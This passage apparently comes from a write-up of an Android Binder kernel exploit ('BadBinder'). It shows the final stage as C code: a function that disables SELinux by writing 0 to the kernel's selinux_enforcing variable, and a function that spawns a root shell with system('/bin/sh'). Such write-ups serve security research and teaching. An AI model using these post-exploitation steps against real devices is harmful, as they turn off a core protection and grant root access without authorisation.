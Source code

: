 ## Disable selinux_enforcing

```c
void BadBinder::override_selinux_enforcing()
{
    info("Overriding selinux_enforcing");
    write_u32(m_selinux_enforcing, 0);
}
```

To disable `selinux`, we just disable it by writing 0 to `selinux_enforcing` which is `uint32_t`

## Spawn Shell

```c
void BadBinder::spawn_shell()
{
    info("Spawning shell");
    system("/bin/sh");
}
```

Spawn shell on same process and we should have root as well as disabled selinux!

![](/assets/img/2023-05-27-16-45-43.png)
![](/assets/img/2023-05-27-16-45-53.png)
